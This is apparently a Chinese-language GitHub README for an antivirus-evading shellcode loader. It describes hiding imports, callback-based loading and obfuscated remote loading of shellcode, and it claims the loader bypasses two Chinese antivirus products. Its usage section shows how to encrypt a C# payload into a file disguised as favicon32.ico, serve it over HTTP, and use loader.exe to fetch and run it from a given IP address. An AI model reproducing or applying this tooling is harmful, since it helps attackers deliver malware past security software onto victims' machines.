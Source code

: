 ##  没什么好介绍

1.去除了关键函数导入表
2.使用回调函数进行加载
3.shellcode混淆远程加载

## 缺点一堆
1.只能使用64位C# shellcode等等。。。

2.自测免杀某60/某绒。。
![1.png](/1.png)
![2.png](/2.png)

## 方法
使用enc.exe加密cs生成payload.cs文件,会在当前目录生成favicon32.ico把文件放服务器使用python起个服务提供远程下载，使用loader.exe进行远程加载
```bash
enc.exe Payload.cs

loader.exe  http://192.168.1.1:80/favicon32.ico

```